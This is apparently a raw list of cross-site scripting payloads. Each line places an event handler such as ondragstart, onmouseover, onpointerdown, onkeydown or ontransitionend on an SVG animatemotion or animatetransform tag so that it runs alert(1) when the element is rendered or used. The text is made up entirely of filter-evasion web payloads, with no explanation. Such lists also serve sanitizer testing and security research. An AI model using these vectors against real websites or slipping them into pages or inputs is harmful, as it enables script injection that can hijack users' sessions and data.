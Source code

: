 <animatemotion draggable="true" ondragend="alert(1)" style=display:block>test</animatemotion>
<animatemotion draggable="true" ondragenter="alert(1)" style=display:block>test</animatemotion>
<animatemotion draggable="true" ondragleave="alert(1)" style=display:block>test</animatemotion>
<animatemotion draggable="true" ondragstart="alert(1)" style=display:block>test</animatemotion>
<animatemotion id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></animatemotion>
<animatemotion onafterscriptexecute=alert(1)><script>1</script>
<animatemotion onbeforescriptexecute=alert(1)><script>1</script>
<animatemotion onblur=alert(1) id=x tabindex=1 style=display:block>test</animatemotion><input value=clickme>
<animatemotion onclick="alert(1)" style=display:block>test</animatemotion>
<animatemotion oncontextmenu="alert(1)" style=display:block>test</animatemotion>
<animatemotion oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<animatemotion oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<animatemotion ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</animatemotion>
<animatemotion onfocusout=alert(1) id=x tabindex=1 style=display:block>test</animatemotion><input value=clickme>
<animatemotion onkeydown="alert(1)" contenteditable style=display:block>test</animatemotion>
<animatemotion onkeypress="alert(1)" contenteditable style=display:block>test</animatemotion>
<animatemotion onkeyup="alert(1)" contenteditable style=display:block>test</animatemotion>
<animatemotion onmousedown="alert(1)" style=display:block>test</animatemotion>
<animatemotion onmouseenter="alert(1)" style=display:block>test</animatemotion>
<animatemotion onmouseleave="alert(1)" style=display:block>test</animatemotion>
<animatemotion onmousemove="alert(1)" style=display:block>test</animatemotion>
<animatemotion onmouseout="alert(1)" style=display:block>test</animatemotion>
<animatemotion onmouseover="alert(1)" style=display:block>test</animatemotion>
<animatemotion onmouseup="alert(1)" style=display:block>test</animatemotion>
<animatemotion onmousewheel=alert(1) style=display:block>requires scrolling
<animatemotion onpointerdown=alert(1) style=display:block>XSS</animatemotion>
<animatemotion onpointerenter=alert(1) style=display:block>XSS</animatemotion>
<animatemotion onpointerleave=alert(1) style=display:block>XSS</animatemotion>
<animatemotion onpointermove=alert(1) style=display:block>XSS</animatemotion>
<animatemotion onpointerout=alert(1) style=display:block>XSS</animatemotion>
<animatemotion onpointerover=alert(1) style=display:block>XSS</animatemotion>
<animatemotion onpointerrawupdate=alert(1) style=display:block>XSS</animatemotion>
<animatemotion onpointerup=alert(1) style=display:block>XSS</animatemotion>
<animatetransform draggable="true" ondrag="alert(1)" style=display:block>test</animatetransform>
<animatetransform draggable="true" ondragend="alert(1)" style=display:block>test</animatetransform>
<animatetransform draggable="true" ondragenter="alert(1)" style=display:block>test</animatetransform>
<animatetransform draggable="true" ondragleave="alert(1)" style=display:block>test</animatetransform>
<animatetransform draggable="true" ondragstart="alert(1)" style=display:block>test</animatetransform>
<animatetransform id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></animatetransform>
<animatetransform onafterscriptexecute=alert(1)><script>1</script>
<animatetransform onbeforescriptexecute=alert(1)><script>1</script>
<animatetransform onblur=alert(1) id=x tabindex=1 style=display:block>test</animatetransform><input value=clickme>
<animatetransform onclick="alert(1)" style=display:block>test</animatetransform>
<animatetransform oncontextmenu="alert(1)" style=display:block>test</animatetransform>
<animatetransform oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<animatetransform oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<animatetransform ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</animatetransform>
<animatetransform onfocusout=alert(1) id=x tabindex=1 style=display:block>test</animatetransform><input value=clickme>
<animatetransform onkeydown="alert(1)" contenteditable style=display:block>test</animatetransform>
<animatetransform onkeypress="alert(1)" contenteditable style=display:block>test</animatetransform>
<animatetransform onkeyup="alert(1)" contenteditable style=display:block>test</animatetransform>
<animatetransform onmousedown="alert(1)" style=display:block>test</animatetransform>
<animatetransform onmouseenter="alert(1)" style=display:block>test</animatetransform>
<animatetransform onmouseleave="alert(1)" style=display:block>test</animatetransform>